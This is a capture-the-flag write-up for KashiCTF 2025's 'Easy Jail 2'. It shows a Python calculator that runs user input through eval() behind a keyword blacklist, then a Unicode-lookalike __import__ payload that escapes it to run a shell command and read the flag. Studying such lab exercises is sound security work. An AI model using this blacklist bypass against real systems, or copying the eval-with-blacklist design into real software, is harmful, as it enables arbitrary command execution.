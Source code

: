 ```yaml
---
title: "Easy Jail 2"
description: "I made a completely secure calculator this time."
pubDate: 2025-02-27
ctf: "KashiCTF 2025"
category: "misc"
author: "sealldev"
section: "CTFs"
image: "images/25-kashi/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/kashictf2025#easy-jail-2)

```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
	try :
		res = eval(op)
	except Exception as e:
		print(e)
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		if any(bad in inp for bad in BLACKLIST) :
			print("Are you tying to hack me !!!!!")
		else :
			calc(inp)

if __name__ == '__main__':
	main()
```

Looking at the jail (compared to the previous) restricts words (such as import), our previous solution (`__import__('os').system('cat ../flag.txt')`) no longer worked due to `import` being a blocked word.

Looking at the [PyJail material online](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass) we can use a unicode bypass.

I make the following payload: `__𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')`

Which then returns the flag from the remote:

```
$ nc kashictf.iitbhucybersec.in 56261
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>> __𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}
```

Flag: `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}`
